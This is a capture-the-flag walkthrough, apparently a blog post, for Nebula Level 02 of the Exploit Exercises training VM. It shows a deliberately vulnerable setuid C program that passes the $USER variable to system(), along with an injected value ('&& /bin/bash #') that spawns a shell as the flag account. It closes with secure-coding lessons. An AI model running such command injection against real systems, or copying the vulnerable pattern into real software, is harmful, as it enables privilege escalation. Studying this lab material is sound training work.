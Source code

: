 ```yaml
---
layout: post
title: "Nebula Series - Level 02"
---
```


*Nebula is the first in a series of VMs from Exploit Exercises. It consists of 20 levels which range
in difficulty from simple to intermediate and cover topics like Linux privilege escalation and file
system race conditions.*

**Level 02** is a quick one thanks to an application that trusts us blindly.

<!--more-->

You shouldn't trust the user. If the application
executes a command that is built either entirely or partially from user input, it's vulnerable to
command injection.

Inspecting the executable in the flag account's home directory `/home/flag02` we again see that it
is `setuid` and is owned by `flag02`.

To make our lives easier, we are also provided with the source:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);

  system(buffer);
}
```

Again, the application sets our **REAL** uid & gid to our **EFFECTIVE** uid & gid which means
as far as the running process is concerned, we are user `flag02`; now we just need to get it to do
our bidding.


The application builds up the command using the value in the `$USER` environment variable, stores it in the
buffer, and eventually executes it.

```c
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
...
system(buffer)
```

Our goal is to craft a value for the `$USER` variable such that we are provided with a shell when the command is run.


We can short circuit the call to `/bin/echo` with `&&`, invoke `/bin/bash`, and comment out the rest
of the command with `#`:

```bash
$ USER='&& /bin/bash #' /home/flag02/flag02
```

The resulting command is

```bash
/bin/echo && /bin/bash # is cool
```

The `#` at the end is crucial because without it `bash` would try to execute a non-existent file called `is` and fail.
Instead, we are presented with a shell as `flag02` which we can verify with `whoami` if we're in doubt.

To complete the level we use our escalated privileges to run getflag

```bash
$ getflag

"You have successfully executed getflag on a target account"
```

In summary:

- assume all input is malicious
- if possible, avoid dynamically composing commands with user provided data
